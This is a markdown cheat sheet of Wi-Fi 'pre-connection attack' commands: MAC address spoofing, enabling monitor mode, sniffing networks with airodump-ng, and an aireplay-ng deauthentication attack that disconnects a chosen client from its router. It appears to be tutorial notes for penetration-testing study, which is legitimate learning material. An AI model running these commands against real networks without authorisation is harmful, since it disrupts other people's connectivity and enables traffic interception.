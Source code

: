 
# Pre-connection attacks

## Change mac address

- Disable the interface
```
$ ifconfig wlan0 down
```

- Change the mac address
```
$ ifconfig wlan0 hw ether <new_mac_address>
```

- Enable the interface
```
$ ifconfig wlan0 up
```

## Change wireless mode to monitor (ifconfig method)

- Disable wireless interface (change wlan0 to the interface you want to use)
```
$ ifconfig wlan0 down
```

- Kill all processes that can interfere using the interface
```
$ airmon-ng check kill
```

- Change mode to monitor
```
$ iwconfig wlan0 mode monitor
```
if this command does not work use this alternative:
```
$ airmon-ng start wlan0
```

- Enable the interface
```
$ ifconfig wlan0 up
```

## Packet sniffing

- Change wireless adapter to monitor mode

- Listen to all wireless network (change mon0 to the interface you want to use)
```
$ airodump-ng mon0
```
This will sniff on the 2.4GHz band, if you want to sniff on all bands modify the command like this:
```
$ airodump-ng --band abg mon0
```

- Listen to a specific network
```
$ airodump-ng --bssid <target-network-bssid> --channel <target-network-channel> --write <filename> mon0
```
--write option: export result to file

## Deauthentication attack
- Deauthenticate the target machine (client-mac-addr) from the router (target-mac-addr)<br>
If is running on 5GHz add -D.<br>
Higher the number of packets is longer we keep the target disconnected<br>
(change mon0 to the inteface you want to use)
```
$ aireplay-ng --deauth <packet-number> -a <target-mac-addr> -c <client-mac-addr> mon0
```
sometimes this command can fail if airodump-ng is not running against the target network
